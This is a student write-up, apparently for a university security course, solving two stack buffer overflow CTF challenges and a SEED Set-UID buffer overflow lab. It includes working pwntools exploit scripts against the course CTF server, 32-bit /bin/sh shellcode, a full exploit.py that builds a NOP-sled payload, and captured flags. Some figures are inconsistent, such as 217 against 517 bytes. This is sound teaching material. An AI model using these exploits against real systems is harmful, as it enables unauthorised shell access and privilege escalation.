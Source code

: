 # Trabalho realizado na Semana #5


---

## CTF

### Week 5 - Challenge 1

The mem.txt file is opened, read and printed. Therefore, to change the file read, we overrode the meme_file variable through the scanf function call. This function reads 28 bytes to the buffer variable, which has only 20 bytes of space. The other 8 bytes correspond to the meme_file variable.

We altered the given python code to run our attack and find the flag:

```
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"12345678901234567890flag.txt")
r.interactive()
```

![](https://i.imgur.com/pfxsmM0.png)

Flag:
```
flag{cf7021e744f2bc2a75e134e62d60bdf9}
```

### Week 5 - Challenge 2


The next challenge was very similar to the previous one. We noticed a new variable called val with 4 bytes whose value had to be a specific one to pass the condition and open the file.

To change the file read, we overrode val and meme_file variables through the scanf function call. This function reads 32 bytes to the buffer variable, which has only 20 bytes of space. The 4 bytes after the first 20 bytes read, correspond to the val value, which needed to be `xfefc2223`. Because the variables are written in the stack bottom-up, these val bytes must be written in reverse order, `\x23\x22\xfc\xfe`. The other 8 bytes correspond to the meme_file variable.


We altered the given python code to run our attack and find the flag:
```
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"1" * 20 + b"\x23\x22\xfc\xfe" + b"flag.txt")
r.interactive()
```

![](https://i.imgur.com/GvbTPw9.png)

Flag:
```
flag{58073dcba2977777b74da5782c31a91a}
```


---


## Buffer Overflow Attack Lab (Set-UID Version)

### Task 1

Both the binaries open a shell where we can run some code:

![](https://i.imgur.com/cpwSfRb.png)


### Task 2

In this task we are presented with the following code:

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}

```

This code reads from a file, badfile, which will be the entry point of the attack. It reads 517 bytes of data and then invokes dummy_function() which, in turn, calls bof() function who calls a strcpy instruction to assign those 217 bytes to an array, buffer, with only 100 bytes.

The buffer overflow will cause harm in those 417 bytes in excess.

After compilation we are required to change the premissions of the resultant object file to gain Set-UID privileges.

Because the compilation and setup commands are already included in Makefile, we just needed to type <kbd>make</kbd>.

![](https://i.imgur.com/lURTDYR.png)



### Task 3

Running GDB on the debug binary, we got the following addresses:

![](https://i.imgur.com/TJXqU4V.png)


After knowing these values we needed to prepare the badfile which will be read by the binary. In order to do so, we completed the python base attack, exploit.py, given by the lab.

Firstly, we needed to complete the shellcode section correctly.

After inspecting the Makefile provided we noticed that stack-L1 was compiled using flag -m32

```
FLAGS    = -z execstack -fno-stack-protector
FLAGS_32 = -m32
TARGET   = stack-L1 stack-L2 stack-L3 stack-L4 stack-L1-dbg stack-L2-dbg stack-L3-dbg stack-L4-dbg
...
```
This means this is a 32 bit architecture so the correct shellcode to use in this architecture is the following (which was provided in the call_shellcode.c in task 1):

```
"shellcode= (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')
```


Secondly, we needed to decide where in the buffer would our shellcode be. Because we will be filling the buffer’s content with NOP’S, to make our chances of landing in one of them higher, we need to get the most NOP’S that we could possibly get. With this in mind, we decided that the best position would be at the end of the buffer. This could be done by pushing the shellcode to the end of the available buffer space and because our buffer has length 517, this position would be:

```
start = 517 - len(shellcode)   
```


Thirdly, we needed to change the return adress value to one that we know would run our code.

We know that if the address points to any NOP’S between the place where the address is and the shellcode, we are sure that the shellcode will run. We also know ebp value so we added to ebp value the value 0x88 to achieve the return adress.

```
ret = 0xffffcb48 + 0x88 
```

Finally, the result of <kbd>ebp - buffer</kbd> gives us the offset that we need to change de ebp value (108). Because the ebp value is right before the return address value and the architecture is 32 bit, the adresses are 4 bytes long. In order to change the return address, we need to give it an offset of <kbd>(ebp - buffer) + 4</kbd> which is:

```
offset = 112
```

Ending up with the following python script:

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb48 + 0x88       # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

After running the above code and generating the badfile, we ran our code and opened a shell when running stack-L1 binary, as expected:

![](https://i.imgur.com/yZKOkDH.png)

